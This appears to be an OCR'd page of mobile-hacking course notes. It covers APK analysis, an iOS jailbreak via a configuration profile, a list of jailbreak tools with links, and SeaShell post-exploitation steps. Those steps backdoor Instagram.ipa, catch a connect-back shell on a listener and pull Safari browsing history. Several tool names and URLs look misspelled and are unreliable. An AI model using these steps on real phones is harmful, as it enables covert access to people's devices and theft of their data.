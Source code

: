 ### Oline Android Analyzers 
Online Android analyzers allow you to scan APKs and perform security analysis to detect vulnerabilities in the applications. 
▪ Sixo Online APK Analyzer 
## Hacking iOS
### Jailbreaking iOS Using Hexxa Plus 
Steps to Install Hexxa Plus 
-  Step 1: Go to Xookz App Store → click on Hexxa (Full)
-  Step 2: In the upper right corner, click the Install button to receive the configuration profile on the iPhone device. Note: If a pop-up is displayed while installing, tap on Allow
-  Step 3: Now, navigate to Settings → click the profile downloaded from the above step → click on Install button.
-  Step 4: Enter screen password → click Install again
-  Step 5: The Hexxa Plus Repo Extractor icon appears on the homescreen. 
- Step 6: Open the Hexxa Plus Repo Extractor → click on Get Repos 
-  Step 7: Choose a desired jailbreaker’s repo → copy its URL from the given categories. 
- Step 8: Click on the Extract Repo option → paste the copied URL
-  Step 9: Extract the jailbreaker’s repo by clicking the OK button
### Jailbreaking Tools 
- Redensa 
-  checkra1n (https://checkra.in) 
- palera1n (https://palera.in) 
- Zeon (https://zeon-app.com) 
- Sileo (https://en.sileem.com) 
- Cydia (https://www.cydiafree.com)


- Hacking using Spyzie
### Post-exploitation on iOS Devices Using SeaShell Framework
- SeaShell Framework 
- SeaShell is an iOS post-exploitation framework that enables attackers to remotely access, control, and extract sensitive information from compromised devices. Attackers can use this exploitation framework to exploit the CoreTrust vulnerability, which allows bypassing security checks of CoreTrust for unauthorized software execution. 
-  Step 1: Run the following command to launch the SeaShell Framework: seashell
- Step 2: Run the following command to patch an IPA file and provide the IP address and port number to establish a connection: ipa patch Instagram.ipa
- Step 3: Now, run the following command to start a listener on the host and port added to the patched IPA: listener on ``<IP address> <Port no>``
- You will receive a connection after the installed application opens.
- Step 4: Run the following commands to interact with the compromised device using the interactive shell by implementing Pwny: ``devices -i <id>``
You can also run the “help“ command to generate a list of available commands. 
- Step 5: Once the remote interaction is successfully established, execute the following command to access the web browsing history: safari_history
Note: The command retrieves and parses the database, which is located at ”/var/mobile/Library/Safari/”
